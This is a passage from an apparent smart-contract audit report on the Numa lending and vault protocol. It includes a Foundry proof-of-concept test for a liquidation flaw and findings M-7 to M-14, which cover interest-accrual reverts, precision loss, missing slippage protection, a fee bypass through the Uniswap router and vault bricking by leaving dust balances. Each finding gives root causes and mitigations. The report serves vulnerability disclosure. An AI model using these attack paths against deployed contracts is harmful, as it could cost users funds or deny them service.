        uint remainingBorrow = cReth.borrowBalanceCurrent(userA);
        emit log_named_decimal_uint("Remaining borrow =", remainingBorrow, 18);
        // Only full liquidation allowed now
        assertLt(remainingBorrow, vault.minBorrowAmountAllowPartialLiquidation(), "below minBorrowAmountAllowPartialLiquidation");
        // Verify again the position is liquidatable but is not in the badDebt region
        (, , shortfall, badDebt) = comptroller.getAccountLiquidityIsolate(userA, cNuma, cReth);
        emit log_named_decimal_uint("Shortfall2 =", shortfall, 18);
        emit log_named_decimal_uint("BadDebt2   =", badDebt, 18);
        assertGt(shortfall, 0, "Position2 should be liquidatable");
        assertEq(badDebt, 0, "Position2 shouldn't be in badDebt region");
        vm.stopPrank();

        // temporary hack required to allow full liquidation now since 
        // `borrowBalance < minBorrowAmountAllowPartialLiquidation`. Needs to be done due 
        // to existence of a different bug
        vm.prank(deployer);
        comptroller._setCloseFactor(1e18); 

        // Second liquidation attempt for remaining debt
        vm.startPrank(userC); // liquidator
        deal({token: address(rEth), to: userC, give: remainingBorrow});
        rEth.approve(address(vault), remainingBorrow);
        vm.expectRevert("LIQUIDATE_SEIZE_TOO_MUCH");
        vault.liquidateLstBorrower(userA, remainingBorrow, false, false);  // @audit-issue : no way to liquidate !
        vm.stopPrank();
    }

    function test_liquidationMechanics_path02() public {
        // Initial setup
        vm.prank(deployer);
        vaultManager.setSellFee(1 ether); // no sell fee

        uint collateralAmount = 100 ether;
        uint borrowAmount = 80 ether;  // 80% LTV to start

        deal({token: address(rEth), to: userA, give: collateralAmount});
        
        // First approve and enter the NUMA market
        vm.startPrank(userA);
        address[] memory t = new address[](1);
        t[0] = address(cNuma);
        comptroller.enterMarkets(t);

        // Buy NUMA with rETH to use as collateral
        rEth.approve(address(vault), collateralAmount);
        uint numas = vault.buy(collateralAmount, 0, userA);

        // Deposit NUMA as collateral
        uint cNumaBefore = cNuma.balanceOf(userA);
        numa.approve(address(cNuma), numas);
        cNuma.mint(numas);
        uint cNumas = cNuma.balanceOf(userA) - cNumaBefore;
        
        emit log_named_decimal_uint("Numas deposited =", numas, 18);
        emit log_named_decimal_uint("cNumas received =", cNumas, 18);

        // Borrow rETH
        cReth.borrow(borrowAmount);
        uint initialBorrowBalance = cReth.borrowBalanceCurrent(userA);
        emit log_named_decimal_uint("Initial borrow =", initialBorrowBalance, 18);
        (, , uint shortfall, uint badDebt) = comptroller.getAccountLiquidityIsolate(userA, cNuma, cReth);
        assertEq(shortfall, 0, "Unhealthy borrow");
        vm.stopPrank();

        // Make position liquidatable by manipulating the sell fee
        vm.startPrank(deployer);
        vaultManager.setSellFee(0.87 ether); // price drop making position liquidatable
        
        // Verify position is liquidatable
        (, , shortfall, badDebt) = comptroller.getAccountLiquidityIsolate(userA, cNuma, cReth);
        assertGt(shortfall, 0, "Position should be liquidatable");
        assertEq(badDebt, 0, "Position shouldn't be in badDebt region");
        emit log_named_decimal_uint("Shortfall =", shortfall, 18);

        // Set liquidation incentive 
        comptroller._setLiquidationIncentive(1.12e18); // 12% premium
        // Set close factor 
        comptroller._setCloseFactor(0.85e18); // 85%
        vm.stopPrank();

        // First liquidation attempt
        vm.startPrank(userC); // liquidator
        uint borrowBalance = cReth.borrowBalanceCurrent(userA);
        uint repayAmount = (borrowBalance * 85) / 100; // 85% of the debt
        
        deal({token: address(rEth), to: userC, give: repayAmount});
        rEth.approve(address(vault), repayAmount);
        
        // This should succeed since there's enough collateral for the first liquidation
        vault.liquidateLstBorrower(userA, repayAmount, false, false);
        emit log_named_decimal_uint("First liquidation repaid =", repayAmount, 18);

        // Second liquidation attempt for remaining debt
        uint remainingBorrow = cReth.borrowBalanceCurrent(userA);
        emit log_named_decimal_uint("Remaining borrow =", remainingBorrow, 18);
        // Verify the position again for badDebt
        (, , shortfall, badDebt) = comptroller.getAccountLiquidityIsolate(userA, cNuma, cReth);
        emit log_named_decimal_uint("Shortfall2 =", shortfall, 18);
        emit log_named_decimal_uint("BadDebt2   =", badDebt, 18);
        assertGt(badDebt, 0, "Position2 should be in badDebt region"); // @audit-issue : has become badDebt now; unprofitable for liquidators
        vm.stopPrank();
    }
```

</details>
<br>

Output:
```text
Ran 2 tests for contracts/Test/Vault.t.sol:VaultTest
[PASS] test_liquidationMechanics_path01() (gas: 2288863)
Logs:
  VAULT TEST
  Numas deposited =: 176595.092400931043253778
  cNumas received =: 0.000882975462004655
  Initial borrow =: 20.000000000000000000
  Shortfall =: 1.817974907058021698
  redeem? 0

  First liquidation repaid =: 11.000000000000000000
  Remaining borrow =: 9.000000000000000000
  Shortfall2 =: 1.289974907057879019
  BadDebt2   =: 0.000000000000000000

[PASS] test_liquidationMechanics_path02() (gas: 1828185)
Logs:
  VAULT TEST
  Numas deposited =: 706380.369603724173015115
  cNumas received =: 0.003531901848018620
  Initial borrow =: 80.000000000000000000
  Shortfall =: 1.264378335974950255
  redeem? 0

  First liquidation repaid =: 68.000000000000000000
  Remaining borrow =: 12.000000000000000000
  Shortfall2 =: 5.573919060292848876
  BadDebt2   =: 5.235704273992472501

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 52.60s (5.50s CPU time)
```

## Mitigation 
Add the following 2 checks:

1. If a partial liquidation attempt would result in the debt going into badDebt territory, then it should not be allowed. Full liquidations should be allowed in such cases with a reduced liquidation incentive applicable. The code should allow `repayAmount = borrowBalance` and bypass the `closeFactorMantissa` constraint ( or set it temporarily to `1e18` ).

2. If a full liquidation attempt ( possible when `borrowBalance < minBorrowAmountAllowPartialLiquidation` ) would result in `seizeTokens` to be greater than the cToken collateral balance of the borrower, then the liquidator should still be allowed to go ahead and be awarded all the available cTokens in borrower's balance. 

This possibility of a reduced liquidation incentive should be properly documented so that liquidators know the risk in advance.

## Discussion

**tibthecat**

I think it works like compound and as intended for the bad debt part which can be profitable only if there is way to swap collateral at profit on some LP.

About that comment in the dashboard: 

\_"Thank you for the detailed analysis.

For part 2, this was discussed in the "Counterproductive Incentives" section [here](https://blog.openzeppelin.com/compound-audit). This is the liquidation design of Compound.

For part 1, if I'm understanding correctly, due to the existance of minBorrowAmountAllowPartialLiquidation, should be valid. Example: Collateral=100, Debt=95, incentive=12\%, minBorrowAmountAllowPartialLiquidation=200. Then liquidators can only try to liquidate the whole position, which would fail due to not enough collateral (95*112\% = 106.4 > 100).

Changing this to medium severity."\_

I disagree because our goal IS that liquidator liquidate the maximum possible. Because of our maxProfitPerliquidation, we don't want liquidators to split their liquidations. We added that parameter (minBorrowAmountAllowPartialLiquidation) in case there would not be enough liquidity on the chain to perform the liquidation.



# Issue M-7: leverageStrategy will revert due users interest rate accrual 

Source: https://github.com/sherlock-audit/2024-12-numa-audit-judging/issues/120 

## Found by 
KupiaSec, jokr

### Summary

In the `CNumaToken.leverageStrategy()` function, after borrowing from the market using the `borrowInternalNoTransfer` function, a check is performed to ensure that the user's borrow amount changes only by `borrowAmount` using a `require` statement. However, this check will fail because the user's principal borrow amount will increase by more than `borrowAmount` due to the interest accrued on the user's borrow position.

### Root Cause

```solidity
uint accountBorrowBefore = accountBorrows[msg.sender].principal;
// Borrow but do not transfer borrowed tokens
borrowInternalNoTransfer(borrowAmount, msg.sender);
// uint accountBorrowAfter = accountBorrows[msg.sender].principal;

require(
    (accountBorrows[msg.sender].principal - accountBorrowBefore) == 
        borrowAmount,
    "borrow ko"
);
```
https://github.com/sherlock-audit/2024-12-numa-audit/blob/main/Numa/contracts/lending/CNumaToken.sol#L196-L204

The require statement above will always fail since the user's previous borrow amount accrues interest, causing the principal borrow amount to increase beyond `borrowAmount`.

Even if the global interest rate index is updated, the user's borrow position will only accrue interest when their borrow position is touched as below.

```solidity
    function borrowBalanceStoredInternal(
        address account
    ) internal view returns (uint) {
        /* Get borrowBalance and borrowIndex */
        BorrowSnapshot storage borrowSnapshot = accountBorrows[account];

        /* If borrowBalance = 0 then borrowIndex is likely also 0.
         * Rather than failing the calculation with a division by 0, we immediately return 0 in this case.
         */
        if (borrowSnapshot.principal == 0) {
            return 0;
        }

        /* Calculate new borrow balance using the interest index:
         *  recentBorrowBalance = borrower.borrowBalance * market.borrowIndex / borrower.borrowIndex
         */
        uint principalTimesIndex = borrowSnapshot.principal * borrowIndex;
        return principalTimesIndex / borrowSnapshot.interestIndex;
    }
```

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path



1. Suppose the user has an existing borrow amount of 100. Hence, `accountBorrows[msg.sender].principal = 100`.
2. The user calls the `leverageStrategy` function to borrow an additional 50 from the market.
3. During the borrowing process, interest will accrue on the existing borrow amount. For example, the principal borrow amount will increase to 150.2 (existing borrow = 100, new borrow = 50, accrued interest = 0.2).
4. The `require` statement `(accountBorrows[msg.sender].principal - accountBorrowBefore) == borrowAmount` will then fail because the principal borrow amount includes the accrued interest, making the difference greater than `borrowAmount`.


### Impact

`leverageStrategy` function will fail almost always.

### PoC

_No response_

### Mitigation

Instead of directly fetching the user's previous borrow amount from the state using `accountBorrows[msg.sender].principal`, use the `borrowBalanceStored()` function. This function accounts for accrued interest and provides the correct previous borrow balance, ensuring that the `require` statement works as intended.


```diff
- uint accountBorrowBefore = accountBorrows[msg.sender].principal;
+ uint accountBorrowBefore = borrowBalanceStored(msg.sender);
```


# Issue M-8: User will Received Less Amount Of Numa 

Source: https://github.com/sherlock-audit/2024-12-numa-audit-judging/issues/161 

## Found by 
Nave765, onthehunt

### Summary

User will lose some Numa due to precision loss whenever user calls `NumaPrinter::burnAssetInputToNuma`.


### Root Cause

`BASE_1000` is being used in collateral factor calculation, criticalScaleForNumaPriceAndSellFee, and criticalDebaseFactor within `VaultManager::getSynthScaling` function.

https://github.com/sherlock-audit/2024-12-numa-audit/blob/main/Numa/contracts/NumaProtocol/VaultManager.sol#L550-L558

```solidity
function getSynthScaling() public view virtual returns (uint scaleSynthBurn, uint syntheticsCurrentPID, uint criticalScaleForNumaPriceAndSellFee, uint blockTime)
    {
        _;
@>      uint criticalDebaseFactor = (currentCF * BASE_1000) / cf_critical;
        // when reaching CF_CRITICAL, we use that criticalDebaseFactor in numa price so that numa price is clipped by this lower limit
        criticalScaleForNumaPriceAndSellFee = criticalDebaseFactor;

        // we apply this multiplier on the factor for when it's used on synthetics burning price
@>      criticalDebaseFactor = (criticalDebaseFactor * BASE_1000) / criticalDebaseMult;

        if (criticalDebaseFactor < scaleSynthBurn)
            scaleSynthBurn = criticalDebaseFactor;
        _;
    }

```

`scaleSynthBurn` is being used to scale NUMA to be received based on the burned asset when user calls `NumaPrinter::burnAssetInputToNuma`. However due to precision loss, user will get less amount than the actual amount to be received.

Assuming the protocol state :

1. Eth balance of all vault = 2500000e18
2. Synth value in ETH = 2300000e18

| Variable                              | Code | Actual    |
| ------------------------------------- | ---- | --------- |
| Collateral Factor                     | 1086 | 1086,9565 |
| criticalScaleForNumaPriceAndSellFee   | 987  | 988,1422  |
| scaleSynthBurn (criticalDebaseFactor) | 897  | 898, 311  |

User calls `NumaPrinter::burnAssetInputToNuma` which then calculate the Numa received with `NumaPrinter::getNbOfNumaFromAssetWithFee`. However, user will get less `costWithoutFee` amount due to precision loss in scaleSynthBurn.

Assuming user try to deposit 500k worth of NUMA in nuAsset, due to low amount of precision user will get 655 less NUMA amount.

```solidity
    function getNbOfNumaFromAssetWithFee(
        address _nuAsset,
        uint256 _nuAssetAmount
    ) public view returns (uint256, uint256) {
        (uint scaleSynthBurn, , , ) = vaultManager.getSynthScaling();
        // apply scale
@>      costWithoutFee = (costWithoutFee * scaleSynthBurn) / BASE_1000;
        // burn fee
        uint256 amountToBurn = computeFeeAmountIn(
            costWithoutFee,
            burnAssetFeeBps
        );
        //uint256 amountToBurn = (_output * burnAssetFeeBps) / 10000;
        return (costWithoutFee - amountToBurn, amountToBurn);
    }
    }
```

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

No Attack Required

### Impact

User will get less amount when they try to exchange NuAsset to NUMA.


### PoC

_No response_

### Mitigation

Consider changing the precision to 1e18 or bigger than 1000.


# Issue M-9: Before transferring `CToken`, the `accrueInterest()` function should be called first. 

Source: https://github.com/sherlock-audit/2024-12-numa-audit-judging/issues/168 

## Found by 
KupiaSec

### Summary

Before transferring `CToken`, the `NumaComptroller.transferAllowed()` function is called first to prevent any imbalance between the user's collateral and debt value.

However, since `accrueInterest()` is not called before `transferAllowed()`, the imbalance check is performed incorrectly, using outdated data.

As a result, legitimate transfers may be reverted, and illegitimate transfers could succeed.

### Root Cause

Before transferring `CToken`, the [transferTokens()](https://github.com/sherlock-audit/2024-12-numa-audit/blob/main/Numa/contracts/lending/CToken.sol#L149) function is invoked without first calling `accrueInterest()`.

Within the `transferTokens()` function, `transferAllowed()` is called.

The `NumaComptroller.transferAllowed()` function checks for potential imbalances between the user's collateral and debt value. However, this check is inaccurate, as it relies on outdated data because `accrueInterest()` has not been invoked.

As a result, legitimate transfers may be reverted, and illegitimate transfers could succeed.

The reversal of legitimate transfers is particularly concerning, as it can be time-sensitive, especially in liquidation situations for the receiver. And illegitimate transfers can lead to an imbalance between the sender's collateral and the value of their debt, potentially resulting in the sender facing liquidation after the transfer.

```solidity
    function transfer(
        address dst,
        uint256 amount
    ) external override nonReentrant returns (bool) {
149     return transferTokens(msg.sender, msg.sender, dst, amount) == NO_ERROR;
    }

--------------------

    function transferTokens(
        address spender,
        address src,
        address dst,
        uint tokens
    ) internal returns (uint) {
        /* Fail if transfer not allowed */
90      uint allowed = comptroller.transferAllowed(
            address(this),
            src,
            dst,
            tokens
        );
        if (allowed != 0) {
            revert TransferComptrollerRejection(allowed);
        }

        ...
    }
```

### Internal pre-conditions

### External pre-conditions

### Attack Path

### Impact

Legitimate transfers may be reverted, and illegitimate transfers could succeed.

If the receiver is on the verge of liquidation, the reversal of legitimate transfers to this receiver becomes a time-sensitive issue.

And illegitimate transfers can lead to an imbalance between the sender's collateral and the value of their debt, potentially resulting in the sender facing liquidation after the transfer.

### PoC

### Mitigation

Invoke `accrueInterest()` before the transfer.

## Discussion

**tibthecat**

This is coming from compound V2 fork. Is compound V2 vulnerable to that too?



# Issue M-10: Precision loss in setMaxSpotOffsetBps function leads to Incorrect Numa Prices 

Source: https://github.com/sherlock-audit/2024-12-numa-audit-judging/issues/175 

## Found by 
jokr

### Summary

Due to precision loss in `NumaOracle.setMaxSpotOffsetBps()`, the spot price is modified (increased or decreased) by incorrect percentages, resulting in incorrect prices.


### Root Cause

Due to precision loss during the calculation of `maxSpotOffsetPlus1SqrtBps` and `maxSpotOffsetMinus1SqrtBps`, the spot price from the LP increases or decreases by more than the desired percentage.


```solidity
    function setMaxSpotOffsetBps(uint _maxSpotOffsetBps) external onlyOwner {
        require(_maxSpotOffsetBps < 10000, "percentage must be less than 100");
         // @audit-issue precision loss here
         maxSpotOffsetPlus1SqrtBps =
            100 *
            uint160(Math.sqrt(10000 + _maxSpotOffsetBps));
        // @audit-issue precision loss here
        maxSpotOffsetMinus1SqrtBps =
            100 *
            uint160(Math.sqrt(10000 - _maxSpotOffsetBps));

        emit MaxSpotOffsetBps(_maxSpotOffsetBps);
    }
```
https://github.com/sherlock-audit/2024-12-numa-audit/blob/main/Numa/contracts/NumaProtocol/NumaOracle.sol#L74-L85


For example, let’s say `_maxSpotOffsetBps = 145` (1.45% as mentioned in the documentation). 
In this case, `maxSpotOffsetPlus1SqrtBps` should ideally be `10072`. However, since `Math.sqrt(10000 + 145) = 100.72`, it will be rounded down to `100` in Solidity. As a result, `maxSpotOffsetPlus1SqrtBps` will be set to `10000` instead of `10072`. This means that, instead of increasing the spot price by 1.45%, the spot price will remain unchanged.

Similarly, for `maxSpotOffsetMinus1SqrtBps`, it will be set to `9900` instead of `9927`. This results in the spot price decreasing by 1.99% instead of the intended 1.45%.


### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

Incorrect prices result in conversions between Numa and nuAssets occurring at inaccurate rates.

### PoC


```solidity
Initial values:
sqrtPriceX96: 51371404683662199233634777298 (From Numa/DAI pool)
Converted to price: 0.42042033575707566
sqrtPriceX96_2: 1364847094945173773261425958388466 (From USDC/ETH pool)
Converted to price: 3369.6994581667514

Testing with 145 bps (1.45%):
maxSpotOffsetPlus1SqrtBps: 10000
maxSpotOffsetMinus1SqrtBps: 9900

run() results (direct prices):
Original price: 0.42042033575707566
Decreased price: 0.4120539710755098
Increased price: 0.42042033575707566
Percentage change (decrease): -1.99%
Percentage change (increase): 0.00%

run2() results (inverse prices):
Original price: 3369.6994581667514 (ETH price in USDC)
Decreased price: 3302.642438949233
Increased price: 3369.6994581667514
Percentage change (decrease): -1.99%
Percentage change (increase): 0.00%
```

### Mitigation

Increase the precision of `_maxSpotOffsetBps` to avoid precision losses.

# Issue M-11: No slippage check for leverageStrategy function 

Source: https://github.com/sherlock-audit/2024-12-numa-audit-judging/issues/182 

## Found by 
jokr

### Summary

When a user opens a leveraged position using the CNumaToken.leverageStrategy() function, there is no slippage protection to limit the price at which tokens are bought by the strategy contract. As a result, if the tokens are purchased at an unfavorable price, the user may incur more debt than expected. Additionally, the function lacks a deadline parameter to ensure that the transaction is executed within a specified timeframe. Without this parameter, if the transaction is delayed, the user has no control over the price at which the tokens are purchased, increasing their risk.

### Root Cause

In [CNumaToken.sol:193](https://github.com/sherlock-audit/2024-12-numa-audit/blob/main/Numa/contracts/lending/CNumaToken.sol#L193), there is no slippage check for the `borrowAmount`. As a result, if the tokens are purchased at a worse price than expected, the user may incur more debt than intended.

```solidity
    function leverageStrategy(
        uint _suppliedAmount, // 1O Numa 
        uint _borrowAmount, // 40 Numa -> rETH
        CNumaToken _collateral,
        uint _strategyIndex
    ) external {
    
       // ...
       
        // how much to we need to borrow to repay vault
        // @audit-issue There should slippage protection here. Otherwise user will incur more debt if tokens are swap at worst price
        uint borrowAmount = strat.getAmountIn(_borrowAmount, false);
      

        uint accountBorrowBefore = accountBorrows[msg.sender].principal;
       
        borrowInternalNoTransfer(borrowAmount, msg.sender);
   
        
        require(
            (accountBorrows[msg.sender].principal - accountBorrowBefore) ==
                borrowAmount,
            "borrow ko"
        );
        
                // swap
        EIP20Interface(underlying).approve(address(strat), borrowAmount);
        (uint collateralReceived, uint unUsedInput) = strat.swap(
            borrowAmount,
            _borrowAmount,
            false
        );


    }
   ```

The `closeLeverageStrategy` function also lacks slippage protection. 

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

Let's assume 1 Numa = 0.1 rETH.

1. The user calls `leverageStrategy(10, 40, cNuma)` to open a 5x leveraged position in Numa tokens.
2. 10 Numa will be supplied by the user, and 40 Numa will be flash-borrowed from the Numa Vault by the cReth contract.
3. These 50 Numa will be supplied as collateral to the cNuma market.
4. The cReth contract will then borrow rETH against the provided collateral (50 Numa in step 3) and exchange it for Numa to repay the 40 Numa flash loan taken in step 2.
5. The user expects to incur 4 rETH of debt (40 Numa * 0.1 rETH per Numa). However, there is no control over the price at which the swap occurs. If the swap happens at a worse price, for example, 1 Numa = 0.15 rETH, the user will incur 6 rETH of debt instead of the expected 4 rETH. This price discrepancy results in a loss for the user.



### Impact

User will incur more debt that expected due to lack of slippage check.

### PoC

_No response_

### Mitigation

Add slippage protection for `borrowAmount` in `leverageStrategy` function.


```diff
    function leverageStrategy(
        uint _suppliedAmount, // 1O Numa 
        uint _borrowAmount, // 40 Numa -> rETH
        CNumaToken _collateral,
        uint _strategyIndex
    ) external {
    
       // ...
       
        // how much to we need to borrow to repay vault
        // @audit-issue There should slippage protection here. Otherwise user will incur more debt if tokens are swap at worst price
        uint borrowAmount = strat.getAmountIn(_borrowAmount, false);
+       require(borrowAmount <= maxBorrowAmount);
      

        uint accountBorrowBefore = accountBorrows[msg.sender].principal;
       
        borrowInternalNoTransfer(borrowAmount, msg.sender);
   
        
        require(
            (accountBorrows[msg.sender].principal - accountBorrowBefore) ==
                borrowAmount,
            "borrow ko"
        );
        
                // swap
        EIP20Interface(underlying).approve(address(strat), borrowAmount);
        (uint collateralReceived, uint unUsedInput) = strat.swap(
            borrowAmount,
            _borrowAmount,
            false
        );


    }
   ```
Also add slippage protection for `closeLeverageStrategy` function.

# Issue M-12: Numa tokens fee on transfer can be bypassed 

Source: https://github.com/sherlock-audit/2024-12-numa-audit-judging/issues/184 

The protocol has acknowledged this issue.

## Found by 
jokr

### Summary

The Numa token is designed in a way that if users want to transfer Numa tokens to a specific address present in `isIncludedInFees`, a fee will be applied. Additionally, if the `spender` address is in the `wlSpenders` list, no fee is charged

In the case of Uniswap, this design allows fees to be taken when users want to sell Numa tokens in Uniswap. The `wlSpenders` list includes the `UniswapV2Router` to ensure that liquidity providers do not have to pay fees when adding liquidity using the router

  ```solidity
  // cancel fee for some spenders. Typically, this will be used for UniswapV2Router which is used when adding liquidity
  if ((!ns.wlSpenders[spender]) && (fee > 0) && ns.isIncludedInFees[to]) {
      _transferWithFee(from, to, value, fee);
  } else {
      super._transfer(from, to, value);
  }
  ```
  
However, the `UniswapV2Router` also includes functions such as `swapExactTokensForTokens`, which can be used to swap Numa tokens. Since the router is in the whitelist, no fees will be applied for the swap. This allows users to bypass the fee when selling their Numa tokens on Uniswap

### Root Cause

In [Numa.sol:95](https://github.com/sherlock-audit/2024-12-numa-audit/blob/main/Numa/contracts/Numa.sol#L95),  if the spender is whitelisted, no fee will be charged. The whitelisted spender, UniswapV2Router, can also be used to sell Numa tokens, thereby bypassing the fee.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

Users can sell Numa tokens on Uniswap without paying any fees

### PoC

_No response_

### Mitigation

Change fee on transfer implementation of Numa token

## Discussion

**tibthecat**

Irrelevant as current deployed Numa token does not have "on-transfer fee" anymore. And numa.sol should not have been in the audit scope.

**c-plus-plus-equals-c-plus-one**

> Irrelevant as current deployed Numa token does not have "on-transfer fee" anymore. And numa.sol should not have been in the audit scope.

![image](https://github.com/user-attachments/assets/44e294a9-01b5-4dc7-b037-80ad20e5d504)




# Issue M-13: Buy fee PID is updated with wrong amounts leading to unexpected fee growth 

Source: https://github.com/sherlock-audit/2024-12-numa-audit-judging/issues/199 

## Found by 
Afriaudit, OpaBatyo, zarkk01

### Summary

## Summary
`updateBuyFeePID` is invoked with Numa amount before fee, instead of the actual numa that was minted
## Description
Let's take a look at the Numa `buy` flow.
```solidity
        uint256 numaAmount = vaultManager.tokenToNuma( // calculates how much numa we get for input amount reth
            _inputAmount,
            last_lsttokenvalueWei,
            decimals,
            _criticalScaleForNumaPriceAndSellFee
        );

        require(numaAmount > 0, "amount of numa is <= 0");
        if (_transferREth) {                          // transfers the reth
            SafeERC20.safeTransferFrom(
                lstToken,
                msg.sender,
                address(this),
                _inputAmount
            );
        }
        uint fee = vaultManager.getBuyFee();
        if (feeWhitelisted[msg.sender]) {
            fee = 1 ether; // max percent (= no fee)
        }
        _numaOut = (numaAmount * fee) / 1 ether;       // applies buy fee
        require(_numaOut >= _minNumaAmount, "Min NUMA");
        minterContract.mint(_receiver, _numaOut);      // mint amount after fee
```
Buyers send their desired rETH which is exchanged for Numa and a buy fee is subtrtacted directly from the Numa they are owed. However at the end of the function, `updateBuyFeePID` is called in order to update the future buy fee of numa since supply increased.

```solidity
        vaultManager.updateBuyFeePID(numaAmount, true); // @audit-issue called with amount pre-tax
```

However the update function is invoked with `numaAmount` which is the number before the buy fee is applied. This is incorrect since the actual minted amount is smaller than what the `updateBuyFeePID` is called with. For instance, we send rETH to get 100 NUMA tokens, fee = 10%, we will get minted 90 NUMA tokens, however the vault manager will be updated as if 100 NUMA tokens were minted. 

Let's have an example with a fee whitelisted user - they will pay no fees so `_numaOut = numaAmount`. If a whitelisted user deposits rETH to get 100 NUMA tokens, they will get minted 100 NUMA tokens and will invoke `updateBuyFeePID` with the 100 minted NUMA. Both users influenced the buy fee PID by 100 NUMA, however they got minted different amounts.

Further proof validating this issue can be seen in `sell` where `updateBuyFeePID` is invoked with the actual amount of Numa that was burnt, meaning that the amounts that are minted/burnt should be used in updating fee PID.
```solidity
        numa.burn(_numaAmount);
        
        vaultManager.updateBuyFeePID(_numaAmount, false);
    
```

### Root Cause

- In [`NumaVault.buyNoMax`](https://github.com/sherlock-audit/2024-12-numa-audit/blob/ae1d7781efb4cb2c3a40c642887ddadeecabb97d/Numa/contracts/NumaProtocol/NumaVault.sol#L527), `updateBuyFeePID` is invoked with wrong, inflated amount instead of the actual numa that was minted

### Internal pre-conditions

none

### External pre-conditions

none

### Attack Path

none, wrong logic

### Impact

- wrong fee calculation
- loss for users

### PoC

_No response_

### Mitigation

Invoke `updateBuyFeePID` with the actual minted amount in `NumaVault.buyNoMax`

## Discussion

**tibthecat**

I don't think it makes a big difference. But I will check with team.



# Issue M-14: Vaults can be purposefully bricked by leaving small amounts of rETH 

Source: https://github.com/sherlock-audit/2024-12-numa-audit-judging/issues/220 

The protocol has acknowledged this issue.

## Found by 
OpaBatyo

### Summary

## Summary
Any numa holder can sell their numa in any vault, regardless where the tokens came from, allowing Numa holders to have preferential vaults and brick smaller ones by leaving dust amounts of rETH.
## Description
Vaults have strict MIN and MAX deposit amounts which can be abused by leaving small amounts in it. One possible attack is a whale Numa holder to sell tokens in a smaller vault in order to cause the MAX deposit amount (10% of current lst balance) to be smaller than the MIN (1000 wei).
```solidity
        uint256 vaultsBalance = getVaultBalance();
        uint256 MAX = (max_percent * vaultsBalance) / BASE_1000; // @audit this can be below the constant MIN
        require(_inputAmount <= MAX, "must trade under max");
```
If a vault is left with balance of 9999 wei, MAX will always be smaller than MIN, causing a soft DoS. This attack is relevant even without bricking deposits entirely since a vault can be left with negligible amounts of liquidity and users will be allowed to MAX deposit only a fraction of that. For example:  

Vault holds 1 rETH (1e18 wei) currently valued at 3700 USD.  
Numa holder comes with their liquidity from another vault and burns it, leaving 0.0001 rETH (1e14 wei) or around 0.37 USD
Any further deposits to this vault can be at most a fraction of 0.37 USD, even if `max_percent = 1000`

Users won't be able to deposit a significant amount in this vault, effectively being pushed away from it or forced to interact with a bigger one. Large liquidity providers can collude and perform such attacks to increase their rewards and interest accrued in a preferential vault.

### Root Cause

- [`NumaVault.buy`](https://github.com/sherlock-audit/2024-12-numa-audit/blob/ae1d7781efb4cb2c3a40c642887ddadeecabb97d/Numa/contracts/NumaProtocol/NumaVault.sol#L441) allows to only deposit, at most, a fraction of the current liquidity
- There are no checks in `NumaVault.sell` whether or not the burnt Numa was minted in the same vault

### Internal pre-conditions

None

### External pre-conditions

none

### Attack Path

1. Whale user mints large amounts of Numa in a big vault
2. User sells it in smaller vaults, leaving their liquidity at negligible values
3. Other protocol users can't make a significant deposit in the other vault so they opt for the bigger one
4. Whale user benefits from the extra liquidity/fees/rewards in the big vault

### Impact

- unexpected behaviour
- protocol can be gamed

### PoC

_No response_

### Mitigation

Track numa balances internally and allow users to sell tokens only from the vault that initially minted them. Additionally, add a boolean `max_percent_toggle` in the vault and perform a MAX deposit check only when it's on. This way in the scenario where the vault is left with 0.37 USD worth of rETH, admins can turn the `max_percent` check off in order to have the vault's liquidity restored before turning it on again.

